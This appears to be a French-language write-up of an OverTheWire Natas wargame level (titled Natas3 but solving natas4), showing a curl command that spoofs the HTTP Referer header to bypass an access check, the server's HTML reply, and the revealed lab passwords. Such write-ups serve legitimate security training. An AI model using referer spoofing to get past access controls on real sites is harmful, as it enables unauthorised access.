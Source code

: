 ## Over-The-Wire -writeup-
### Natas3 (http://natas3.natas.labs.overthewire.org/)

---
#### Etape 1

"Accès refusé, vous visitez le site depuis "..", et les utilisateurs authorisés doivent venir depuis "http://natas5.natas.labs.overthewire.org/"  
On va donc **changer notre referer**, une en-tête de requette HTTP qui informe les sites de la provenance des utilisateurs (d'où ils viennent, de quel lien), par le lien demandé.

Je vais utiliser une commande **cUrl** qui va se connecter à la page en changeant le *referer* pour moi:

*Structure de la commande pour se connecter à la page: **curl -u username:password http://target-address/**  
Ici cUrl renvoie la même erreur que sur le navigateur, puisque le referer n'a pas été changé. On s'est juste identifié.

Structure de la command pour changer de referer: **curl --referer http:/referer-adress/ http://target-address**  
Ici cUrl envoie une requête en informant http://target-address/ que l'on provient de http://referer-address/*

**Fusionnons les deux**:
> curl -u username:password http://target-address/ --referer http://referer-address/ http://target-address/

Dans notre cas, la commande exacte est:  
> curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/

---
cUrl renvoie :
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

---
Mot de passe: **iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**
